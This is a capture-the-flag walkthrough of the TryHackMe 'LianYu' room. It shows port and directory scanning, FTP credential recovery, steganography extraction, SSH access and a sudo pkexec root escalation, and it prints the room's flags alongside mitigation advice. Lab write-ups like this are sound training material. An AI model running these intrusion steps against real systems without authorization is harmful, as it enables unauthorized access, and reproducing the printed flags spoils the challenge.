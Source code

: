 # 🟩LianYu - Try Hack Me (THM) Walkthrough Report

**Prepared by:** Nishanth Antony  
**Date:** August 28, 2025  
**Difficulty:** Easy    
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps  
**Objective:** Identify open ports and accessible services on the target.  
**Commands Used:**  
- `nmap -p- --min-rate=1000 <target_ip> -sV -T4 -v`  
- `gobuster dir -u http://<target_ip>:38980 -w /usr/share/wordlists/dirb/common.txt`  

**Findings:**  
- Port 80 open, hosting a web service.  
- Gobuster revealed `/island` directory.  
- Further gobuster on `/island` uncovered `/2100` and `/green_arrow.ticket`.  
- `/green_arrow.ticket` contained a token: `RTy8yhBQdscX`, base58 decoded to an FTP password.  

---

## 2. Exploitation Process  
**Step 1 – FTP Access**  
- Logged into FTP with username `vigilante` and decoded password:  
  `ftp vigilante@<target_ip>`  
- Downloaded files: `Leave_me_alone.png`, `Queen's_Gambit.png`, `aa.jpg`.  
- Commands:  
  ```bash
  ftp> ls
  229 Entering Extended Passive Mode (|||25926|).
  150 Here comes the directory listing.
  -rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
  -rw-r--r--    1 0        0          549924 May 05  2020 Queens_Gambit.png
  -rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
  226 Directory send OK.
  ftp> get aa.jpg
  local: aa.jpg remote: aa.jpg
  229 Entering Extended Passive Mode (|||5437|).
  150 Opening BINARY mode data connection for aa.jpg (191026 bytes).
  100% |****************************************************************************************|   186 KiB   55.60 KiB/s    00:00 ETA
  226 Transfer complete.
  191026 bytes received in 00:03 (50.79 KiB/s)
  ftp> exit
  221 Goodbye.
  ```
- Outcome: Files downloaded successfully.  

**Step 2 – Steganography Analysis**  
- Modified `Leave_me_alone.png` magic header to make it viewable, revealing a password.  
- Extracted hidden data from `aa.jpg` using steghide:  
  `steghide extract -sf aa.jpg`  
- Entered password from `Leave_me_alone.png` to retrieve `ss.zip`.  
- Extracted `ss.zip`, obtaining a password for SSH access.  
- Outcome: Obtained SSH password.  

**Step 3 – SSH Access as Slade**  
- Logged in via SSH:  
  `ssh slade@<target_ip>`  
- Retrieved user flag:  
  ```bash
  slade@LianYu:~$ ls
  user.txt
  slade@LianYu:~$ cat user.txt
  THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0NT}
  --Felicity Smoak
  ```
- Outcome: User flag retrieved.  

**Step 4 – Privilege Escalation**  
- Checked sudo permissions:  
  `sudo -l`  
- Found slade could run `/usr/bin/pkexec` as root with password.  
- Escalated to root:  
  `sudo pkexec /bin/bash`  
- Retrieved root flag:  
  ```bash
  root@LianYu:~# ls
  root.txt
  root@LianYu:~# cat root.txt
  Mission accomplished
  You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE.
  THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_ILL_BE_D34D}
  --DEATHSTROKE
  ```
- Outcome: Root flag retrieved.  

---

## 3. Proof of Concept (PoC)  
- **FTP Download:**  
  `ftp vigilante@<target_ip>` with decoded password, `get aa.jpg`.  
- **Steganography Extraction:**  
  `steghide extract -sf aa.jpg` with password from `Leave_me_alone.png`, retrieved `ss.zip`.  
- **Privilege Escalation:**  
  `sudo pkexec /bin/bash` after authenticating with SSH password.  

---

## 4. Privilege Escalation  
- Exploited sudo privilege allowing `/usr/bin/pkexec` execution as root.  
- Used password-based authentication to gain root shell.  

---

## 5. Mitigation Recommendations  
- **Web Server Hardening:**  
  - Restrict access to sensitive directories (e.g., `/island`).  
- **Authentication Security:**  
  - Use strong, unique passwords and multi-factor authentication for FTP and SSH.  
- **File Security:**  
  - Avoid storing sensitive data in images or unencrypted files on FTP.  
- **Sudo Configuration:**  
  - Limit sudo commands to specific, necessary actions; avoid password-based root access via pkexec.  
- **Patch Management:**  
  - Update vsftpd and other services to latest versions.  
  - Monitor logs for unauthorized access attempts.  

---

## 6. Lessons Learned  
- **Steganography Use:** Hidden data in images can conceal critical credentials.  
- **Weak Credentials:** Easily decoded tokens and passwords simplify initial access.  
- **Sudo Misconfiguration:** Overly permissive sudo rules enable privilege escalation.  

---

## 7. Skills Practiced  
- Network scanning (nmap)  
- Web directory enumeration (gobuster)  
- FTP file retrieval  
- Steganography analysis (steghide)  
- SSH access and privilege escalation  
- Secure reporting and mitigation strategies  

